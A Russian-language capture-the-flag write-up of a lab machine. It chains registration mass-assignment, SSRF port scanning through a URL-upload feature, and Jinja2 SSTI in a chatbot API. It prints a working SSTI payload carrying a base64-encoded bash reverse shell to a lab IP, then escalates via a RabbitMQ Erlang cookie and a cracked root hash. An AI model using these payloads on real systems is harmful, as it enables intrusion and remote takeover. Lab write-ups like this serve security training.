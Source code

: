 ![](../../attachment/Pasted%20image%2020250408110553.png)
для доступа к сайту добавим target ip и domain в /etc/hosts
Исследуя сайт находим поддомен storage, который добавляем в etc/hosts
Создаем пользователя и видим уведомление
![](../../attachment/Pasted%20image%2020250408111449.png)

при регистрации был создан jwt token

![](../../attachment/Pasted%20image%2020250408112245.png)

Возвращаемся к созданию учетную записи и добавляем строку  "subscription":"active"


![](../../attachment/Pasted%20image%2020250408112846.png)
![](../../attachment/Pasted%20image%2020250408112854.png)

После входа под новым пользователем мы получаем доступ  к загрузке файлов
![](../../attachment/Pasted%20image%2020250408112938.png)
Попробуем загрузить png и проверить наличие уязвимости при загрузке файла (отсутствует)
![](../../attachment/Pasted%20image%2020250408113153.png)

Сайт обращался к api (logout,register,uploads....) - проверим какие есть еще
![](../../attachment/Pasted%20image%2020250408113727.png)

Доступа к api/docs запрещен 

На главной странице также есть загрузка через url
![](../../attachment/Pasted%20image%2020250408113834.png)![](../../attachment/Pasted%20image%2020250408113921.png)
![](../../attachment/Pasted%20image%2020250408115952.png)
при просмотре файла ничего не найдено. Скорее всего есть другой порт, выполним поиск с помощью burp где будем менять значения порта от 80-N (первый поиск до 8390)
![](../../attachment/Pasted%20image%2020250408120057.png)

После поиска сортируем по длине ответа и порт 3000 имеет наибольшею длину после 80 порта
Загружаем на сайт url http://127.0.0.1:3000/api/docs и получает путь к файлу в котором содержатся эндпоинты
![](../../attachment/Pasted%20image%2020250408120409.png)

отправим POST запрос на api chatbot
![](../../attachment/Pasted%20image%2020250408122019.png)![](../../attachment/Pasted%20image%2020250408122049.png)
Проверим наличие SSTI
![](../../attachment/Pasted%20image%2020250408122108.png)
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}} ([Flask Jinja2 Pentesting | Exploit Notes](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/))
![](../../attachment/Pasted%20image%2020250408125048.png)
генерируем с помощью revshell нагрузку bash и кодируем в base64 
```
"{{request.application.__globals__.__builtins__.__import__('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjIxLjYxLjM1LzY2NTUgMD4mMQ==|base64 -d|bash').read()}}"
```

подключаемся и забираем первый флаг
![](../../attachment/Pasted%20image%2020250408181414.png)

При сканирование машины был сервис rabbit. Проверим домашнюю директорию пользователя rabbitmq (создается автоматически при установки rabbit)
![](../../attachment/Pasted%20image%2020250408181542.png)
Получив куки erlang можно подключиться и экспортировать метаданные(definitions) 
Находим в них хеш root и декодируем 
![](../../attachment/Pasted%20image%2020250408181718.png)

![](../../attachment/Pasted%20image%2020250408182056.png)

Забираем флаг root
![](../../attachment/Pasted%20image%2020250408182217.png)